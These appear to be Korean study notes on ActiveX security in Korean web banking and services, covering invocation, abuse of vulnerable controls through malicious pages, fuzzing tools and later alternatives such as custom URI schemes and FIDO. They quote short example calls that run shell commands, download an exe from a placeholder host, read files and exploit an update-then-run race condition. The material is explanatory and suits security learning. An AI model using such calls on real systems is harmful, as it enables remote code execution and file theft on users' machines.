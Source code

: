 ActiveX
===

Active X = ole + com

internet explorer : 엑티브 엑스를 타 언어에서 실행시킬 수 있음

인자 전달 방식

	1. obj1.callmethod('hellsonic', 'ccc', 1);

	2.
		<object id = 'obj1' classid = '~'>
			<param ~>
			<param ~>
		</object>

		obj1.callmethod();

설계상 자바스크립트는 exe 를 이길 수 없음 <br>
=> js 만으로 커널단의 키보드 보안, 화면 보안을 할 수 없음

한구의 KI 기술을 무시할 수 없음, 굉장히 고려해야할 점이 많음
완전히 다른 방식으로 바꾼다는 것을 고려하지 못하는 이유이기도 함
암호화 모듈과 같은 것도 JS 로 포팅할 수 없음 -> activex 로 사용 (현재는 많이 대체됨 )

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 악성 URL 로 유도 개인 타겟을 이용한 공격

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 사용자들이 많이 방문하는 홈페이지의 iframe 을 통해 감염
PC <br>
-> A에서만 호출 되야 할 ActiveX 가 어디서든 호출 가능 : 가장 큰 문제 <br>
-> 악성 페이지에서 호출이 됬는지 정상 페이지에서 호출이 됬는지 분간이 어려움

2년전만 해도 active x 가 shell 을 실행할 수 있었음 :

    ViewerX.Execute('netstat -an');
    ViewerX.DOwnloadFromURL('https://blabla.com/a.exe', 'C:/a.exe');

편의를 위한 함수이지만, 취약점이 크게 발생

    ViewX.ReadFile('C:/read.txt');
파일을 읽을 수 있음 ( + write delete)
registry read write delete

서비스를 이용하는 다수의 보안 프로그램 설치를 요구 <br>
-> 설치하지 않으면 서비스를 이용하지 못하므로 모두 설치 해야됨
무조건 '예' 를 눌러 설치하는 것은 힘듬

race condition 발견도 가능

    ViewerX.CheckUpdate("http://www.com/a.exe');
    ViewerX.Run('a.exe');
checkupdate : tmp 파일에 떨군후 인증서와 같은 검사를 함 <br>
-> 삭제 run : 실행 <br>
 : 삭제와 실행이 동시 실행 , race condition

update url 이 언제 바뀔지 모르기 때문에,
*ViewerX.CheckUpdate('http://update.kr/viewer.ini');* 를 통해 정보를 받아와 업데이트 <br>
-> 자체 검사 루틴이 존재하지 않으면 위조시 확인할 수 없음

Fuzzing::ComRaider - DLL 불러와서 Fuzzing - BOF 외의 다른 취약점을 찾을 수 없음
AxMan - Java sciprt 로 구현, class id 에 object id 를 넣으면, 막 돌면서 bof 를 찾음 <br>
 : crash 를 내기만 할 뿐 로깅 기능을 하지 않음
dranzer - bof 밖에 못찾기는 하지만, exception 과 로깅 기능이 모두 존재 : user interaction 이 불필요
	g 옵션을 통해 파일 떨궈 인풋으로 주면 알아서 돔

COM 기반이기 떄문에 Method 주소가 직관적으로 보이지 않음
attach internet explorer 해서 dispcallfunction 에서 ecx 에 걸린놈이 함수 주소

천송이 코트 사건으로 이해 active x 의무 설치 규정을 폐지

active x 이후에는 exe 파일을 배포 <br>
-> 사용자는 수동으로 설치 해결된 문제 : 오픈앱을 사용 <br>
-> 브라우져 상관 없이 가능
하지만, OS 를 넘지는 못함

exe 와 explorer 의 통신 : 자체 웹 서버, custom uri scheme, web socket 기술로 통신

custom uri scheme : registry : root : uri shceme name : shell : open : command
kakaotalk://url ~&param=
이라면 root 아래 kakatalk 폴더에서 command 를 타고 가 실행하게 됨
but 사용자 마음대로 직접 호출이 가능하고, 버그가 발생할 수 있음
결과값을 받아오기 매우 힘듬

web socket : corss-origin resource sharing 을 활용한 IE 와 localhost 의 웹서버와 통신<br>
크로스 도메인이라는 문제 발생 <br>
\+ 해킹할 때 web socket 으로 보안 중지를 요청하면 무용지물
JSONP 를 이용한 통신도 가능 <br>
\+ http5 웹소켓을 통한 통신도 가능

exe 파일 안했으면 좋겠다 <br>
js 랑 full html5 로 만들었으면 좋겠다 <br>
-> 두 기술을 이용해 공인인증서 관리 가상 키보드 구현 <br>
-> 익스플로러가 html 과 js 만 지원한다면 가능 <br>
-> 공인인증서 관리 : 로컬 스토리지 (브라우져 내부 저장소) <br>
-> 가상 키보드 : full js 를 사용하여 구현 <br>
but 키보드나 자바 스크립트만으로는 키보드 보안을 할 수 없다.  <br>
(js 로 user level 프로그램을 관리할 수 없음 )

스마트폰을 이용한 확인 : FIDO fast identity online 이용
PIN 인증서 지문 안면 홍채  <br>
-> 서버 -> 간편인증

온라인 상품 구매  <br>
-> QR 코드 스캔을 통한 스마트폰 인증  <br>
-> 등록된 카드로 결제 <br>
편리함 증가  <br>
-> 보안성 감소
